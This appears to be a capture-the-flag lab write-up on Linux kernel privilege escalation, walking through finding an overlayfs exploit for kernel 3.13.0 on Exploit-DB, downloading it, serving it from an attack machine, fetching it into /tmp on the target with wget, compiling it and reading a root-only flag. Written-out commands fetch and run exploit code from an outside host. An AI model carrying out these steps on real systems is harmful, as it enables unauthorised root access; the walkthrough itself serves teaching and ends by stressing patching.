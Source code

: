 # Kernel Exploits

**Step 1: SSH Login to the Target Machine**

First, SSH into the target machine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2: Check the Kernel Version**

Since we already know this is a kernel privilege escalation exploit, let's check the kernel version running on our target machine using the following command:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Search for Exploits**

Now that we have the kernel version, we can search in well-known exploit databases, such as [Exploit Database](https://www.exploit-db.com/).

Searching for `Linux 3.13.0` yields the following results:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Exploit Found**: I found an exploit for the Linux Kernel versions `3.13.0` to `< 3.19` (specifically for Ubuntu 12.04, 14.04, 14.10, and 15.04) related to 'overlayfs' Local Privilege Escalation.

**Step 4: Review the Exploit Details**

When we open this exploit, we can see the details and some instructions on how to use it.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5: Download the Exploit**

To make this exploit work, we need to download the raw content to the attack machine and then transfer it to the vulnerable machine. Choose a directory of your preference and use the `wget` command to download the exploit. For example:

```bash
wget https://www.exploit-db.com/raw/37292
```

**Step 6: Rename the File and Start the HTTP Server**

Next, rename the downloaded file to `ofs.c`, and start a simple HTTP server to transfer the file to the vulnerable machine:

```bash
python -m SimpleHTTPServer 8000
```

**Step 7: Download the Exploit on the Vulnerable Machine**

On the vulnerable machine, we must choose the `/tmp` directory for the download; otherwise, we will encounter a "Permission denied" message. Use the following command:

```bash
wget -O /tmp/ofs.c http://<attack_machine_IP>:8000/ofs.c
```

#### Breakdown of the Command

* **`wget`**: This is the command-line utility used for downloading files from the web.
* **`-O /tmp/ofs.c`**: The `-O` option specifies the output file name and path. In this case, it tells `wget` to save the downloaded file as `ofs.c` in the `/tmp` directory. The `/tmp` directory is often used for temporary files and is typically writable by all users.
* **`http://<attack_machine_IP>:8000/ofs.c`**: This is the URL from which you are downloading the file. It points to the file `ofs.c` being served by an HTTP server running on the machine with the IP address `10.10.242.118` on port `8000`.

**Step 8: Compile and Run the Exploit**

Now, navigate to the `/tmp` directory and follow the instructions presented in the exploit. Compile the file and then run it:

```bash
gcc ofs.c -o ofs
./ofs
```

**Step 9: Verify Privilege Escalation**

After running the exploit, we can verify our privileges. Running the `id` command again shows that we are now 'root'. We can also use the `whoami` command to confirm this:

```bash
id
whoami
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 10: Access the Flag**

To retrieve the flag, navigate to the `/home/matt` directory and use `cat` to view the contents of the file:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had tried to use `cat flag1.txt` before the exploit, we would have received a "Permission denied" message.

With this write-up, we demonstrated the impact of having an outdated system. Having access to a user's credentials allowed us to leverage that privilege to gain access to the root account. This exercise highlights the importance of keeping systems updated and patched against known vulnerabilities, as well as the potential risks associated with running outdated software.
